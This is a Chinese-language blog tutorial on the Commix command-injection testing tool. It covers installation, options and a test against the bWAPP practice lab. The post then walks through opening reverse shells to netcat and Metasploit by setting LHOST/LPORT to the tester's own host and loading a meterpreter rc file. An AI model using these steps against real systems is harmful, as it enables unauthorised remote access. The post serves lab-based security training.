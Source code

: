 ```yaml
---
layout:     post
title:      Commix工具的使用
subtitle:   命令执行漏洞的检测工具
date:       2019-07-22
author:     木已成舟
header-img: img/post-bg-rwd.jpg
catalog: 	 true
tags:
    - 工具使用
---
```

# 安装
安装Commix很简单，Linux下只需要输入以下命令即可：
```
git clone https://github.com/commixproject/commix.git commix
```
Windows系统只要在Github上下载源码下来，用python运行就行：
```
https://github.com/commixproject/commix
```
## 运行环境
Python 2.6.x or 2.7.x
## 运行
python commix.py [options]

# 常用命令
```
-h, --help            显示帮助信息
--verbose             开启详细模式
--install             将“commix”安装到您的系统
--version             显示当前版本
--update              检查更新
--url=URL           目标URL
--url-reload        命令执行后重新加载目标URL
--host=HOST         HTTP Host header.
--referer=REFERER   HTTP Referer header.
--user-agent=AGENT  HTTP User-Agent header.
--cookie=COOKIE     HTTP Cookie header.
--headers=HEADERS   Extra headers (e.g. 'Header1:Value1\nHeader2:Value2').
--proxy=PROXY       使用代理 (e.g. '127.0.0.1:8080').
--data=DATA         POST data to inject (use 'INJECT_HERE' tag).
--suffix=SUFFIX     Injection payload suffix string.
--prefix=PREFIX     Injection payload prefix string.
--technique=TECH    Specify a certain injection technique : 'classic',
                    'eval-based', 'time-based' or 'file-based'.
--maxlen=MAXLEN     The length of the output on time-based technique
                    (Default: 10000 chars).
--delay=DELAY       Set Time-delay for time-based and file-based
                    techniques (Default: 1 sec).
--base64            Use Base64 (enc)/(de)code trick to prevent false-
                    positive results.
```
# 检测命令执行漏洞
以bWAPP为靶机进行测试，进入OS Command injection靶场页面

![图片](../../../../img/commix_1.png)

输入一个域名后，使用抓包工具抓取HTTP请求数据包
![图片](../../../../img/commix_2.png)

然后进入Kali Linux 输入以下命令：
```
commix -u "http://10.20.40.147/bWAPP/commandi.php" --data "target=www.baidu.com&form=submit" --cookie "PHPSESSID=a26193b0ef93766968e0b2daae34971f; security_level=0"
```
![图片](../../../../img/commix_3.png)

从上图可以看到，命令执行漏洞被Commix发现，并且我们可以在命令终端上输入任意系统命令
# 反弹shell
下面我们来通过Commix反弹到NC和MSF上。
## 反弹至NC
在Commix检测到存在命令执行漏洞后，会返回一个交互行，输入以下内容后进入选项，要反弹到NC上，在Reverse TCP shells 时选1，Unix-like targets 时 选 1:
```
reverse_tcp
set LHOST your_ip
set LPORT your_port
```
![图片](../../../../img/commix_4.png)
在回车之前，先打开NC 监听端口，下图可以看到成功反弹到了NC上：
![图片](../../../../img/commix_5.png)

## 反弹至MSF
在Commix检测到存在命令执行漏洞后，会返回一个交互行，输入以下内容后进入选项，要反弹到MSF上，在Reverse TCP shells 时选2，Metarpreter reverse TCP shells 时选 8，如果靶场环境搭建在Windows上，可以选择10 。

![图片](../../../../img/commix_6.png)
回车后，会自动生成rc文件，这时我们只要打开一个新的命令终端，输入以下命令：
```
msfconsole -r /usr/share/commix/php_meterpreter.rc
```
下图可以看到，成功反弹到了MSF上
![图片](../../../../img/commix_7.png)


